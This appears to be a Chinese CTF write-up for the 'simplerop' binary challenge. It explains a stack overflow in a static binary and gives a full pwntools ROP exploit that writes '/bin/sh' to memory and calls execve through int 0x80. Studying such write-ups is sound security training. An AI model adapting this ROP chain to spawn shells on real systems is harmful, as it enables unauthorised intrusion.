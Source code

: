 ## 0x001 程序分析

打开程序分析，这个程序代码很简单，直接通过read函数接收输入

![](1.png)

## 0x002 漏洞利用

分析main函数可知存在栈溢出漏洞，经过实际测试，溢出长度为0x20。

查看程序开启的保护：

![](2.png)

之开启了NX，因为代码中没有system地址，首先考虑到构造ROP泄漏libc地址。

但是，由于该程序是静态编译的，函数都编译到了代码内部，无法通过GOT表泄漏libc地址，因此只能通过寻找程序内部的gadget构造ROP来获取系统权限。

还好程序中还有int 0x80系统调用

![](3.png)

那么接下来的思路就是首先构造ROP，将字符串 **"/bin/sh"** 写入内存，然后使用 **int 0x80** 系统调用执行 **execve("/bin/sh", 0, 0)** 获取系统权限。

使用 **mov [ebx], eax** 将 **/bin** 写入 **.data** 段
```
payload = p32(pop_edx_ret) + p32(data_start_addr) + p32(pop_eax_ret) + b"/bin" + p32(0x0809a15d)
```

使用 **mov [ebx], eax** 将 **/sh** 写入 **.data** 段
```
payload = p32(pop_edx_ret) + p32(data_start_addr+4) + p32(pop_eax_ret) + b"/sh\x00" + p32(0x0809a15d)
```

通过 **int 0x80** 执行11号系统调用 **execve** 获取系统权限
```
payload = p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(data_start_addr) + p32(pop_eax_ret) + p32(0xb) + p32(int_0x80)
```

这里解释下为什么在溢出时不直接将返回地址跳转到read读取字符串呢？因为程序中也是使用read函数接收输入的，接着再次调用read，第二次read容易接收不到数据，因为在pwntools中，连续调用两次send容易将数据都发到第一个read里，导致第二个read接收不到数据，因此使用了 **mov [ebx], eax** 的方法将数据写入内存里，这样会使EXP利用更加稳定。

最终EXP如下：
```
from pwn import *

p = process('./simplerop')
elf = ELF("simplerop")
rop = ROP(elf)

data_start_addr = 0x080EC05A
int_0x80 = 0x080493e1
pop_edx_ret = rop.edx[0]
pop_eax_ret = rop.eax[0]
pop_edx_ecx_ebx_ret = rop.edx_ecx[0]

payload = b"A" * 0x20
payload += p32(pop_edx_ret) + p32(data_start_addr) + p32(pop_eax_ret) + b"/bin" + p32(0x0809a15d)
payload += p32(pop_edx_ret) + p32(data_start_addr+4) + p32(pop_eax_ret) + b"/sh\x00" + p32(0x0809a15d)
payload += p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(data_start_addr) + p32(pop_eax_ret) + p32(0xb) + p32(int_0x80)

p.sendline(payload)
p.interactive()
```